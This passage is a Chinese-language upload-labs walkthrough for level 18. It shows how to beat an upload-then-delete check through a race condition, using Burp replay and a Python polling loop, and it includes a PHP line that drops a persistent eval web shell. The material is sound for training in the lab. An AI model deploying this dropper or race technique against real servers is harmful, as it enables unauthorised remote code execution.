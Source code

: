 ### upload-18 条件竞争

![image-20240322202250368](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202403222022491.png)

从源码来看，服务器先是将上传的文件保存下来，然后将文件的后缀名同白名单对比，如果是jpg、png、gif中的一种，就将文件进行重命名。如果不符合的话，unlink()函数就会删除该文件。

这么看来如果我们还是上传一个图片马的话，网站依旧存在文件包含漏洞我们还是可以进行利用。但是如果没有文件包含漏洞的话，我们就只能上传一个php木马来解析运行了。

那还怎么搞？上传上去就被删除了，我还怎么去访问啊。

不慌不慌，要知道代码执行的过程是需要耗费时间的。如果我们能在上传的一句话被删除之前访问不就成了。这个也就叫做条件竞争上传绕过。

我们可以利用burp多线程发包，然后不断在浏览器访问我们的webshell，会有一瞬间的访问成功。

为了更好的演示效果，把一句话木马换一下改为：

<?php fputs(fopen('Tony.php','w'),'<?php @eval($_POST["Tony"])?>');?>

把这个php文件通过burp一直不停的重放，然后再写python脚本去不停的访问我们上传的这个文件，总会有那么一瞬间是还没来得及删除就可以被访问到的，一旦访问到该文件就会在当前目录下生成一个Tony.php的一句话。在正常的渗透测试中这也是个好办法。因为单纯的去访问带有phpinfo()的文件并没有什么效果。一旦删除了还是无法利用。但是这个办法生成的Tony.php服务器是不会删除的，我们就可以通过蚁剑去链接了。

首先，我们上传PHP文件，用BP拦截
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210321170454498.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NzU5ODQwOQ==,size_16,color_FFFFFF,t_70)

进行下一步操作前，这里有个小细节，就是`不要`把BP的`拦截功能`关闭了，要一直保持拦截状态以达到测试更好的效果

然后选择`Clear$`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210321170626734.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NzU5ODQwOQ==,size_16,color_FFFFFF,t_70)

最后建议这里把线程设置高一点

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210321170639692.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NzU5ODQwOQ==,size_16,color_FFFFFF,t_70)

然后我们写一个python脚本，通过它来不停的访问我们上传上去的PHP文件(即如上图显示的zoe.php文件) 由于隐私原因，IP地址不能放出来，下面的脚本的url地址XXX都是代表IP地址

```
import requests
url = "http://xxx.xxx.xxx.xxx/upload-labs/upload/zoe.php"
while True:
    html = requests.get(url)
    if html.status_code == 200:
        print("OK")
        break
```

接下来我们可以在BP点击开始攻击，

可以看到上传该文件的数据包不停地在进行重放。

在BP攻击的`同时`我们也要运行python脚本，目的就是不停地访问`zoe.php`知道成功访问到为止。当出现`OK`说明访问到了该文件，那么`Tony.php`应该也创建成功了，用蚁剑连一下试试。

------

### upload-19 apache解析漏洞+条件竞争
